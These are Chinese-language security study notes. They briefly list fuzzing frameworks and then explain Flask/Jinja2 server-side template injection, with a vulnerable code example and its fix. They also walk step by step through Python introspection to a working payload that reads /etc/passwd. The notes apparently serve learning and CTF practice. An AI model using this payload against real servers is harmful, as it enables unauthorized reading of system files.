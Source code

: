 # FUZZ

分类:

* 基于生成 : SPIKE -> Sulley -> Boofuzz -> Fuzzowski



传统的Fuzz框架普遍给予生成突变，现在注重__反馈驱动__的探索

模版: Xml编写与Pit模版

(一般fuzz模版需要根据自己需求而修改)



# Web模版注入学习

[从零学习flask模版注入](https://www.freebuf.com/column/187845.html)

## flask(web一种框架)基础

### 渲染

* render_template: 

  用来渲染制定文件。Exp: return render_template('index.html')

* render_template_string:

  渲染字符串 。 Exp: html = '<h1>This is index page</h1>'

  ​                                  return render_template_string(html)

### 模版

* 模板文件并不是单纯的html代码，而是夹杂着模板的语法，因为页面不可能都是一个样子的，有一些地方是会变化的。比如说显示用户名的地方，这个时候就需要使用模板支持的语法，来传参。

* 模版文件: 在网站__根目录__下新建templates文件夹，用来存放html文件(也就是模版文件)。 Exp: test.py, /templates/index.html

### 模版注入(不止xss注入)

及不正确的代码引发的注入

#### xss注入

```php+HTML
@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)
```

由于code输入是用户可控的，且数据和代码混淆，故用户可利用这一特性进行注入操作

只需改为:

```php+HTML
app.route('/test/')
def test():
    code = request.args.get('id')
    return render_template_string('<h1>{{ code }}</h1>',code=code)
```

在这段代码中用户所控的是__code变量__，而不是模板内容。存在__漏洞__的代码中，__模板内容__直接受用户控制的。

### SSTI文件读取/命令执行

Jinja2模版引擎中，__{{}}__是变量包裹标识符(传递变量，表达式之类的)

例如上面第一个图中代码，若构造参数{{2*4}}，会在浏览器中显示8(而非2 *  4)；这样攻击者容易得知其代码内部构造。(如攻防世界web Web_python_template_injection)

* 文件包含

  * 实现文件读取，命令执行一般步骤: 找出父类<type 'object'> --> 寻找子类 --> 找关于命令执行或文件操作的模块

  * 魔术方法:

    ```
    __class__  返回类型所属的对象
    __mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
    __base__   返回该对象所继承的基类
    // __base__和__mro__都是用来寻找基类的
    
    __subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
    __init__  类的初始化方法
    __globals__  对包含函数全局变量的字典的引用
    ```

*  获取字符串对象

  ```
  >>> ''.__class__
  <type 'str'>
  ```

* 寻找基类

  ```
  >>> ''.__class__.__mro__
  (<type 'str'>, <type 'basestring'>, <type 'object'>)
  ```

* 寻找可用引用

  ```
  >>> ''.__class__.__mro__[2].__subclasses__()
  [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
  
  
  可以看到有一个`<type 'file'>`
  ```

* 利用之

  ```
  ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
  ```

​       放入模版，可见读取了文件

### 命令执行

